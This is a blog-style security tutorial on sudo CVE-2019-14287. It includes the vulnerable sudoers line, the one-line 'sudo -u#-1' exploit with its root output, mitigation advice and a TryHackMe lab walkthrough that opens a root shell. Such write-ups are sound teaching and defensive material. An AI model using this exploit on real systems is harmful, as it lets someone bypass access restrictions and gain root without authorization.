```yaml
---
title: "Sudo CVEs"
description: 
date: 2025-01-23T14:14:48Z
image: 
math: 
license: 
hidden: false
comments: true
draft: false
tags: ["Privesc","kernel","Linux","Sudo","CVE"]
categories: ["Linux-Privilege-Escalation","Sudo-Attacks"] 
---
```


# Sudo CVEs

In this article, we will discuss sudo CVEs, specifically `CVE-2019-14287` and `CVE-2019-18634`, and how they allow us to achieve sudo privilege escalation on Linux systems.  

### **CVE-2019-14287**

CVE-2019-14287 is a vulnerability in `sudo` that allows a user with restricted privileges to execute arbitrary commands as **root**, even if they are explicitly denied in the `sudoers` file. This occurs due to improper validation of the user ID (`UID`) when running commands.

---

### **Details of the Vulnerability**

1. **Affected Software**:
    - `sudo` versions prior to **1.8.28**.
    
1. **Vulnerability Description**:
    - When `sudo` is configured to allow a user to execute commands as any user **except root** using the `!ALL` directive in the `sudoers` file, the vulnerability allows bypassing this restriction.
    - The issue arises because `sudo` does not properly handle the `-1` or `4294967295` value for the `UID`. Internally, these values are interpreted as `0` (root).
2. **Exploitation**:
    - A user can exploit this by specifying `-u#-1` to execute a command as root, bypassing the restrictions.

---

### **Proof of Concept (PoC)**

#### 1. Vulnerable Configuration in `/etc/sudoers`:

The following configuration denies a user (`exampleuser`) from executing commands as root:

```plaintext
exampleuser ALL=(ALL,!root) ALL
```

#### 2. Exploit Command:

The attacker can bypass the restriction and run commands as root:

```bash
sudo -u#-1 id
```

#### 3. Expected Output:

The command will execute as root (`UID=0`):

```plaintext
uid=0(root) gid=0(root) groups=0(root)
```

---

### **Impact**

- **Privilege Escalation**: The attacker gains root privileges, bypassing intended restrictions.
- **Severity**: High (CVSS Score: 7.8).

---

### **Mitigation**

1. **Update `sudo`**:
    
    - Upgrade to **sudo 1.8.28** or later, which properly validates `UID` values.
    
    ```bash
    sudo apt update && sudo apt install sudo
    ```
    
2. **Audit and Restrict sudoers Configuration**:
    
    - Ensure your `sudoers` file does not rely solely on `!root` for user restrictions.
3. **Monitor and Log sudo Usage**:
    
    - Use logs to monitor unusual activity involving `sudo`.

---

### Labs :

- https://tryhackme.com/r/room/sudovulnsbypass

#### TryHackMe Lab 

Now that we have access to the machine, our next goal is to gain root privileges using the identified vulnerability.

First, we use the command `sudo -l` to check what commands we can execute with the current user.

![[Pasted image 20250113172749.png]]

After running `sudo -l`, we see that we can run `/bin/bash` as another user except for root. Let’s exploit this vulnerability.

```shell
sudo -u#-1 /bin/bash
```

![[Pasted image 20250113173233.png]]

And just like that, we are now the root user! :

### **References**

- [MITRE CVE Details](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14287)
